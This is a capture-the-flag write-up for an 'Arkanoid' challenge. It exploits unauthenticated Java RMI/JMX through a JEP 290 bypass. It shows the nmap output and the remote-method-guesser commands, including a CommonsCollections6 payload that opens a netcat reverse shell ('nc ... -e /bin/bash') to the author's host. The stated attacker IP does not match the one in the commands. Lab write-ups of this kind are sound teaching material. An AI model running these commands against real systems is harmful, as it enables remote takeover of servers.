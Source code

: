 ## Arkanoid

Points: 5

We're given a server to check for vulnerabilities. 

Nmap scan `nmap -sV -T4 -A arkanoid.cns-jv.tcc -p1-65535` shows 8000, 60001, 60002 ports open:
```
Nmap scan report for arkanoid.cns-jv.tcc (10.99.0.102)
Host is up (0.019s latency).
rDNS record for 10.99.0.102: localhost
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
8000/tcp  open  http       JBoss Enterprise Application Platform
|_http-title: Gamedev Canvas Workshop - lesson 10: finishing up
36809/tcp open  tcpwrapped
60001/tcp open  java-rmi   Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer, 
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @localhost:60002
|             extends
|_              java.rmi.server.RemoteObject
60002/tcp open  java-rmi   Java RMI

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.91 seconds
```

There's the game itself on port 8000 which isn't very interesting and unauthenticated JMX RMI on ports 60001 (registry) and 60002.

I tried several tools for scanning/attackng JMX RMI with the best results from https://github.com/qtc-de/remote-method-guesser which also conveniently comes with a Docker image (`docker pull ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0`).

So first I enumerated the 60001 registry endpoint with `docker run --rm -it ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 enum 10.99.0.102 60001` which showed a JEP290 bypass enumeration vulnerability.


![alt text](img/rmg_enum.png)

JEP 290 was a security fix for JVM which removed the possibility to directly attack RMI using a deserialization attack by adding filtering on incoming connections. But the fix could still be bypassed by creating an outbound channel from the vulnerable target which doesn't have the filtering and so can be attacked as usual.

So the set this up, I needed 3 components (10.99.0.28 is IP of my machine on the VPN):
- 1) reverse shell listener: `nc -vlp 7002`
- 2) local RMI listener: `docker run --rm -it -p 7001:7001 ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 listen 0.0.0.0 7001 CommonsCollections6 'nc 10.200.0.28 7002 -e /bin/bash'`
- 3) bypass: `docker run --rm -it ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 serial 10.99.0.102 60001 AnTrinh 10.200.0.28:7001 --component reg`

Now that the netcat captured shell, I spent some time looking around for the flag but in the end it was env var of the running process:
`env` -> `FLAG{sEYj-80fd-EtkR-0fHv}`


